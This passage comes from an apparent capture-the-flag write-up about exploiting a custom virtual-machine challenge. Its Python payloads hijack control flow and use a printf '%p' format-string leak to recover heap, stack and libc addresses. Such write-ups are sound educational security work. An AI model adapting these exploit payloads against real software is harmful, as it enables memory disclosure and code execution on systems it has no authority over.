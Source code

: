 In this case, we see `RDX` is part of our cyclic value sent in the second payload, at an offset of 4. We can control this so that it returns to our payload we just wrote to, which is at `0x2008`! We can then write our own VM shellcode.

### VM Shellcoding (address leak)

We first write a shellcode to use `printf` to leak addresses, where the "`%p`"s will be placed in the first payload and pop the offset to it is in `reg[1]`.

I added this to my first payload, and calculated that the offset to the "`%p`"s were at `memory+0xe021`:

```python
payload += cyclic(25)
payload += b'%p'*40 + b'%p %p %p %p||'
```

Afterwards, we need to continue the payload so we create another `read` syscall. However, we now overwrite the instructions at `0xa80` and we then jump to `0xa60`, which is right before the syscall. This makes it so that my next payload would be executed as VM instructions right after the `read` syscall is done. (I had to do this as I did not think of overwriting the size at that time, so had size restrictions and had to keep jumping around)

```nasm
0xa60: 00000016 00000002 00000100 000000001  → LOAD_IMM reg[2], 256 (0x100)
0xa70: 00000015 00000000 00000000 000000000  → SYSCALL (reg[0]=0, reg[1]=0, reg[2]=256)
0xa80: <this will be my next payload>
```

```python
payload = b'AAAA' + p32(0x2008)
payload += p32(0x11) + p32(0x0d) + p32(0x0e) + p32(0)
payload += p32(0x11) + p32(0x02) + p32(0) + p32(0)      # make sure not to clobber the stack
payload += p32(0x16) + p32(0) + p32(0x1) + p32(0) 
payload += p32(0x16) + p32(0x1) + p32(0xe021) + p32(0)  # 0xe021 offset
payload += p32(0x15) + p32(0) + p32(0) + p32(0)         # printf(memory+0xe021), containing the "%p"s
payload += p32(0x11) + p32(0x0e) + p32(0x0d) + p32(0)
payload += p32(0x10) + p32(0xd) + p32(0) + p32(0)

payload += p32(0x16) + p32(0) + p32(0) + p32(0) 
payload += p32(0x16) + p32(1) + p32(0xa80) + p32(0)     # 0xa80 is right after the syscall
payload += p32(0x7) + p32(0xa60) + p32(0x0) + p32(0)    # jump to 0xa60
payload += p32(0xd) + p32(0) + p32(0) + p32(0)

p.send(payload)
```

Now we can see that we have a bunch of addresses leaked, in which case we can parse them to get the heap address, stack address, and libc address.

<figure><img src="../../.gitbook/assets/image (7) (1).png" alt=""><figcaption></figcaption></figure>
